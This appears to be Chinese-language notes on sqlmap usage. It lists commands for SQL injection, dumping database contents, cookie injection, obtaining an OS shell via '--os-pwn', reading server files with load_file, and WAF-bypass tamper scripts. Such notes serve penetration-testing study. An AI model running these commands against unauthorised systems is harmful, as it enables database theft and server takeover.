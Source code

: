 # Sqlmap

---

所有请求方式都能注入，默认是get/post,但是当使用--level参数>=2时，检查cookies，>=3时检查user-agent和referer、 --level 1 GET|2 cookies|3 POST

提示输入的选择，大写是回车默认选项

出现红色提示就是错误，建议加参数

版本：

```
python 版本，较简便，基础功能都有(https://github.com/sqlmapproject/sqlmap)

kali版本，较全面，可以msf联动
```

---

## 常用：

```
python sqlmap.py -u http://www.xxx.com/id=1 -p Id --random-agent --dbms mysql -proxy=http://127.0.0.1:10809 --threads=5 --dbs
```



---

sqlmap -u "http://URL/id=1"	

## 参数

```

--current-db 		#列出当前的数据库
 
--current-user		#列出当前的权限用户

--threads=线程数    #设置线程数，0~10

--delay 1           #延时1秒

--time-sec          #

--referer IP或域名  #设置访问来源

--is-dba  #查看当前数据库用户权限

--level 等级  （等级越高检测会越全面，总5级）

--dbms 数据库名 （指定数据库类型）

--batch   按照sqlmap的默认提示往下确认

--proxy http://localhost:8080 #代理

--random-agent

-p 参数名  #指定注入点参数，当有多个参数时使用 ,默认全部参数都测试注入

-r 文件名         #该文件是能注入的页面的抓·包

--charset=     #编码格式GBK、UTF-8

--dbs 			#列出服务器中所有的数据库

-D 库名 --tables 	#列出该库的所有表

-D 库名 -T 表名 --columns #列出库名的表名的所有字段名

-D 库名 -T 表名 -C "字段名" --dump #列出库名的表名的字段名的数据

-vv 显示详细操作如：使用的payload等

4.0版本可以用

--os-pwn #获取操作系统的shell  ，需要依赖msf（建议在kali里使用）

--sql-shell               
# 文件读取
1.
select load_file('绝对路径') #查看后台登录页面判断登录的代码，找到用户名和密码的代入查询的字段名，和表名（注意，路径使用/，无论是windows还是linux，如要使用\ 就使用\\或者16进制,16进制就不用双引号）windows2003读取C:/windows/system32/inetarv/metabase.xml就可以查看到所有网站根目录
2.
select load data infile '绝对路径' into table user1;  #读取文件写入到user1表中
select * from user;  
3.mysql 5.x以上，sql连接是本地才可以执行
system cat 绝对路径 ;  #执行系统命令读取

```
当无法读取数据库表名

```
情况：
1.版本小于5.0的MySQL没有information_schema表
2.微软Access的MSysObjects表默认不可读
3.数据库用户权限过低无法读取表名

--common-tables  #爆破表名，爆破字典路径txt/common-tables.txt
--common-columns #爆破列名，爆破字典路径txt/common-columns.txt
```



指定注入类型：

```
--technique B
B : 基于Boolean的盲注（Boolean based blind）
Q : 内联查询（Inline queries）
T : 基于时间的盲注（time based blind）
U : 基于联合查询（Union query based）
E : 基于错误（error based）
S : 栈查询（stack queries）
```

---

## cookies注入：（等级2才有cookies注入检测）

sqlmap -u "URL/xxx.php" --cookie "id=n" --level 2 --dbms=mysql --dbs   #cookies注入mysql数据库，查看所有数据库

--cookie "id=n"  --level 2 -D 库名 --tables

--cookie "id=n"  --level 2 -D 库名 -T 表名 --columns

--cookie "id=n"  --level 2 -D 库名 -T 表名 -C "字段名" --dump

\-----------------------------

## temper

tamper（编写绕过规则）：进行绕过waf（防护规则，检测发包间隔）

sqlmap默认tamper有  

sqlmap -u "http://URL/id=1" --tamper "xx.py"  --delay 3 #每次发包延迟3秒再发

 -v 显示包的等级

暂时能过V3.2，更高版本的安全狗要研究

详细：http://www.91ri.org/7852.html

空格 换成 #、随即字符串、换行符

例子：

```
--tamper between    # 绕过>过滤
```

